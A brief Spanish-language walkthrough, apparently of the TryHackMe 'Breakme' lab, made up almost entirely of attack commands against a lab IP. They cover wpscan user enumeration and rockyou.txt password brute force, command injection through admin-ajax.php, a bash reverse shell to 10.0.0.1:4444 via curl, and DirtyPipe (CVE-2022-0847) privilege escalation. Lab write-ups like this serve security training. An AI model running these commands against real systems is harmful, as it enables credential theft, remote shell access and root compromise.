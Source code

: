 # Breakme - TryHackMe 
**IP:** 10.10.124.81

##  Enumeración Web
```bash
wpscan --url http://10.10.124.81/wordpress --enumerate u
  ```
Fuerza bruta con rockyou.txt:

```bash
wpscan --url http://10.10.124.81/wordpress -U admin -P /usr/share/wordlists/rockyou.txt
  ```

## Explotación de WordPress
Inyección de comandos:

```bash
curl "http://10.10.124.81/wordpress/wp-admin/admin-ajax.php?action=test&cmd=id"
  ```

Reverse Shell:


```bash
curl "http://10.10.124.81/wordpress/wp-admin/admin-ajax.php?action=test&cmd=bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"
  ```

##  Escalada con DirtyPipe (CVE-2022-0847)

```bash
searchsploit dirtypipe
gcc exploit.c -o exploit
./exploit
  ```